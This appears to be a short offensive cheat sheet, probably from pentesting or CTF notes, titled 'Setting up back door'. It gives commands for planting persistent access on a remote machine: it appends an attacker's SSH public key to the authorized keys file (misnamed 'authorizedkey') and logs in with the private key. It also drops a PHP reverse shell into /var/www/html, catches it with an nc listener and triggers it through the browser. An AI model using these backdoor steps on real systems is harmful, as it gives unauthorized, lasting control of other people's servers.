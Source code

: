 Setting up back door


backdoor with ssh


put you ssh public key in the .ssh folder of remote machine 
  
    echo "your publickey" >> authorizedkey
  
give persmisson to file again 

    chmod 600 authorizedkey
 
 access with you private key to login to ssh
 
    chmod 600 id_rsa
   
now login 

    ssh -i id_rsa user@ip
    

backdoor with php-revershell

put you php-reverse-shell file to var/www/html


set up the reverse listner 

    nc -nvlp port
  
  
now access with the website to that file

    http://ip/php-reverse-shell
    
    
